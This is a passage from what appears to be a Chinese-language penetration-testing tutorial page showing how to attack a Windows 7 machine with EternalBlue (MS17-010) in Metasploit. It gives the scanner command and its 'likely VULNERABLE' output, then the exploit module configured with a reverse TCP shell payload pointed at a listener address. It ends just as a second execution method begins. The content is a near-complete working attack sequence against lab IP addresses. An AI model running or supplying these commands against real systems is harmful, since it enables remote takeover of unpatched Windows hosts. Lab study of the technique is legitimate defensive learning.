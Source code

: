 <figure><img src="../../.gitbook/assets/20220807202421.png" alt=""><figcaption></figcaption></figure>

### 1. 使用永恒之蓝攻击 win7

> 前提 开启 445 端口

命令：

```shell
search MS17-010  # 查询相关漏洞exp
use auxiliary/scanner/smb/smb_ms17_010    # 使用验证模块
    show options  # 展示指定模块的参数
    set rhosts 192.168.18.128  # 设置参数
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run # 执行后返回的数据
        [+] 192.168.18.128:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600
        [*] 192.168.18.128:445    - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
back # 返回
use exploit/windows/smb/ms17_010_eternalblue  # 使用指定exp模块
	show options # 展示参数
	set rhosts 192.168.18.128 # 设置参数
	show targets  # 展示当前模块可以攻击的目标
	show payloads  # 展示 payloads  
	set payload payload/windows/x64/shell_reverse_tcp    # 设定要使用的 payload
		set lhost 192.168.18.143  # 设置 payload 的参数
	执行 exp：
    	第一种：
    		run # 执行 payload,当页面出现 WIN 后表示入侵成功
			chcp 65001      # 如果乱码执行此命令
		第二种：
```